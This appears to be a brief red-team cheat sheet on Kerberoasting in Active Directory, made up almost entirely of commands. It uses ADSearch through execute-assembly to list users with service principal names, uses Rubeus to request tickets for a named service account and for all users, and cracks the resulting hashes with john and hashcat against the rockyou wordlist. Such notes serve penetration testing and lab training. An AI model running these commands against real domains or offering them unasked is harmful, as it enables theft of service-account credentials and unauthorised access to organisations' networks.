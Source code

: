 # Get users that are kerberoastable in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
```

---

# Kerberoast a specific user with Rubeus

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

# all users
rubeus kerberoast
```

---

# Crack hashes from kerberoasted user

```bash
 john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
 hashcat -a 0 -m 13100 mssql_svc.hash /usr/share/wordlists/rockyou.txt
```

